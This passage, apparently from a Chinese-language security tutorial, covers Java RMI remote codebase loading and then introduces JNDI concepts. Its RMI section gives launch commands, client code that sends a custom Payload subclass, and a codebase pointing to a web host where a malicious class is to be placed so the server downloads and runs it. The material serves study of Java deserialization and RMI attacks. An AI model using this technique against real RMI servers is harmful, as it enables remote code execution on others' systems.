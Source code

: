 |     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br>javac *.java<br>java -Djava.rmi.server.hostname=10.28.178.250 -Djava.rmi.server.useCodebaseOnly=false -Djava.security.policy=client.policy RemoteRMIServer<br>``` |

RMIClient.java：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>``` | ```java<br>import java.rmi.Naming;<br>import java.util.List;<br>import java.util.ArrayList;<br>import java.io.Serializable;<br>public class RMIClient implements Serializable {<br>    public class Payload extends ArrayList<Integer> {}<br>    public void lookup() throws Exception {<br>        ICalc r = (ICalc)<br>Naming.lookup("rmi://10.28.178.250:1099/refObj");<br>        List<Integer> li = new Payload();<br>        li.add(3);<br>        li.add(4);<br>        System.out.println(r.sum(li));<br>    }<br>    public static void main(String[] args) throws Exception {<br>        new RMIClient().lookup();<br>} }<br>``` |

这个 Client 需要在另一个位置运行，需要让 RMI Server 在本地 CLASSPATH 里找不到类，才会去加载 codebase 中的类，所以不能将 RMIClient.java 放在 RMI Server 所在的目录中。

运行 RMIClient：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>java -Djava.rmi.server.useCodebaseOnly=false -Djava.rmi.server.codebase=http://example.com/ RMIClient<br>``` |

只需要编译一个恶意类，将其 class 文件放置在 Web 服务器的 `/RMIClient$Payload.class` 即可。

## [](#2-jndi)2 JNDI

JNDI (Java Naming and Directory Interface) ，包括 Naming Service 和 Directory Service。JNDI 是 Java API，**允许客户端通过名称发现和查找数据、对象**。这些对象可以存储在不同的命名或目录服务中，例如远程方法调用（RMI），公共对象请求代理体系结构（CORBA），轻型目录访问协议（LDAP）或域名服务（DNS）。

### [](#21-jndi-%E7%BB%84%E6%88%90)2.1 JNDI 组成

-   Nameing Service

命名服务，命名服务将命名名称和对象进行关联，提供通过名称找到对象的操作

-   Name

名称，要在命名系统中查找对象，需要提供对象的名称

-   Binding

绑定，一个名称和一个对象的关链称为一个绑定

-   Reference

引用，在一些命名服务系统中，系统并不是直接将对象存储在系统中，而是保持对象的引用

-   上下文

上下文，一个上下文是一系列名称和对象的绑定的集合

## [](#%E5%8F%82%E8%80%83)参考

[Java 中 RMI、JNDI、LDAP、JRMP、JMX、JMS那些事儿](https://paper.seebug.org/1091/)

[phith0n Java 漫谈系列](https://wx.zsxq.com/dweb2/index/group/2212251881)
